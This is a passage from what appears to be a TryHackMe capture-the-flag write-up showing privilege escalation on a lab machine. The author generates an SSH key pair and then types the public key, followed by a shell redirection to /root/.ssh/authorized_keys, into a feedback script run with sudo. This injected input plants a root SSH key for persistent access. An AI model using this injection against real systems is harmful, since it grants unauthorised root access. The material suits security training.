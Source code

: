 ### Method 2: Add SSH Key to file **`/root/.ssh/authorized_keys`**

Within this method, I generated an SSH key-pair on my local machine:

```
┌──(kali㉿kali)-[~/TryHackMe/UAHighSchool]
└─$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): /home/kali/TryHackMe/UAHighSchool/id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/TryHackMe/UAHighSchool/id_rsa
Your public key has been saved in /home/kali/TryHackMe/UAHighSchool/id_rsa.pub
The key fingerprint is:
SHA256:K57QPWGI7eYONb7SmYqyshbmQtdOj2Aqm08TN/kBPkg kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|                 |
|                 |
|  E .            |
| . o = .         |
|  o O * S        |
| + * @ = o       |
|+ B *.Xo+        |
|=* o.O+= .       |
|X*o .+*          |
+----[SHA256]-----+
                                                                                                                                                  
┌──(kali㉿kali)-[~/TryHackMe/UAHighSchool]
└─$ ls -lht id_rsa*
-rw------- 1 kali kali 2.6K Aug 28 17:11 id_rsa
-rw-r--r-- 1 kali kali  563 Aug 28 17:11 id_rsa.pub

┌──(kali㉿kali)-[~/TryHackMe/UAHighSchool]
└─$ cat id_rsa.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDIAIaxBE0H47D84yipR8MsN2Q2DUVflbxqNgdMJywwNHGhpbZWFQXauSf1X7UGIQII1CdAdNa6FbT/[...REDACTED...]BjD1HG2WpbQjrq09shXKmIjZ64uFUmUQ8CVPTa22Izk= kali@kali
```

Then copy and paste the public key into the authorized SSH key file on the target machine:

```
deku@myheroacademia:~$ sudo /opt/NewComponent/feedback.sh 
Hello, Welcome to the Report Form       
This is a way to report various problems
    Developed by                        
        The Technical Department of U.A.
Enter your feedback:
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDIAIaxBE0H47D84yipR8MsN2Q2DUVflbxqNgdMJywwNHGhpbZWFQXauSf1X7UGIQII1CdAdNa6FbT/[...REDACTED...]BjD1HG2WpbQjrq09shXKmIjZ64uFUmUQ8CVPTa22Izk= kali@kali > /root/.ssh/authorized_keys
It is This:
Feedback successfully saved.
```
